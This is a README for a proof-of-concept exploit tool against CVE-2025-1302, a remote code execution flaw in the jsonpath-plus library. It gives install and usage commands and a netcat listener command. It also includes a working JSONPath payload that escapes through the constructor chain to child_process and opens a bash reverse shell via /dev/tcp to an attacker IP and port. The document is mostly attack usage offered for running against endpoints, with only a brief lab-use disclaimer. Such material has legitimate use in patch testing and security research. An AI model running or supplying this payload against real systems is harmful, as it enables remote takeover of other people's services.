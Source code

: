 ## CVE-2025-1302 JSONPath-Plus RCE PoC

**PoC Script Name:** `poc.py`

A proof-of-concept exploit script for CVE-2025-1302, which targets an RCE vulnerability in the `jsonpath-plus` library. When run against a vulnerable service endpoint, the script attempts to trigger remote code execution via a JSONPath payload and establish a reverse shell back to the attacker.

---

### Features

* **Flexible HTTP methods**: Supports **POST**, **GET**, or **AUTO** (POST with GET fallback) via `--method` or `--no-fallback` flags.
* **Custom payloads**: Load one or more JSONPath RCE payload templates from a file, with `{ip}` and `{port}` templating.
* **Built-in default payload**: If no payload file is provided, uses a fully-formed bash reverse shell template.
* **Verbose debugging**: Prints full request/response bodies for both POST and GET attempts when they fail.
* **Progress indicators**: Displays delay and payload loops with `tqdm` progress bars.
* **Logging**: Optionally save all results to a JSON file with `--output`.

### Installation

1. Clone this repository:

   ```bash
   git clone https://github.com/yourorg/jsonpath-rce-poc.git
   cd jsonpath-rce-poc
   ```

2. Install dependencies (requires Python 3.6+):

   ```bash
   pip install -r requirements.txt
   ```

### Usage

1. Start a listener on your attacker machine (replace port as needed):

   ```bash
   nc -lvnp 9999
   ```

2. Run the PoC:

   ```bash
   python3 poc.py \
     --url http://TARGET_HOST:PORT/query \
     --ip ATTACKER_IP --port 9999 \
     [--payload-file payloads.txt] \
     [--delay 5] \
     [--method AUTO|POST|GET] \
     [--no-fallback] \
     [--output results.json]
   ```

* **`--payload-file`**: File containing one JSONPath payload per line. Use `{ip}` and `{port}` placeholders.
* **`--delay`**: Seconds to wait before sending payloads (shows countdown).
* **`--method`**: Force `POST`, `GET`, or `AUTO` (default).
* **`--no-fallback`**: Shorthand to skip any GET retry (equivalent to `--method POST`).
* **`--output`**: Path to save JSON log of attempts.

### Example Payload File

```text
$[?(@.constructor.constructor("require(\"child_process\").execSync(\"bash -i >& /dev/tcp/{ip}/{port} 0>&1\")")())]
```

### Contribution

1. Fork the repo and create a feature branch.
2. Submit a pull request with your changes.

### Disclaimer

Use this script **only** in controlled lab environments against systems you own or have explicit permission to test. Abuse may be illegal and unethical.
